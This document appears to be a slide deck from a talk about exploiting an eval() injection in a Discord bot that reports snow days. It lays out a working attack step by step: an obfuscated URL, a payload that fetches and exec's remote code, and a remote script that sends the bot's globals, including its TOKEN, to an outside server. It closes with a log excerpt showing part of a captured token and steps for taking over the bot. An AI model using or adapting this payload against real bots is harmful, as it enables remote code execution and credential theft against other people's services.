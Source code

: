 title: Discord Bots
---

# How to Trigger Timmy (Discord Bots)
Robert Chen

---

# Context
Discord bots are cool.
Let's make one to report on snow days? 

---

# Problem
Bad programming ethic. 

```
snowman_count = round(eval(between))
```

Eval is evil. 
The user controls the `between` variable. 

---
# Eval?
>imports do nto work
stop trying to do that lol
-- <cite>Timothy Z.</cite>

They don't work with eval. 

---
# Exec
> Eval accepts only a single expression, exec can take a code block that has Python statements.

It's a lot more powerful

---
# Example
```
exec("""
some_code_here
""")
```

---
# Attack
We can execute any python program we want. 
1. Obfuscate url so it's not obvious what we're doing.
2. Use `requests.get` to load file from remote server.
3. Execute remote file. 

This lets us run arbitrary code with little suspicion.

---
# Obfuscation
Obfuscate
```
[ord(i) + 1 for i in "http://test.robertchen.cc/asdf.txt"]
```
Deobfuscate
```
url = "".join([chr(i -1) for i in [...]])
```

---
# Full Payload
```
give me exec("""
url = "".join([chr(i -1) for i in [...]])
code = requests.get(url).content
exec(code)
""") snowmen
```

---
# Remote Server 
1. Use `globals()` to get all global variables. 
2. Send the `TOKEN` value to remote server.
3. Create a new bot with the `TOKEN`. 
4. ...
5. Profit??

---
# asdf.txt
```
requests.get("https://personal.server" + str(globals()))
```
Then we pick through the logs manually.

---
# Logs
```
...%20'TOKEN':%20'NTQ0NzA1MTg4NDY5MTQ1NjM...
```
Note that it's url encoded.
`%20` = `' '`

---
# Profit?

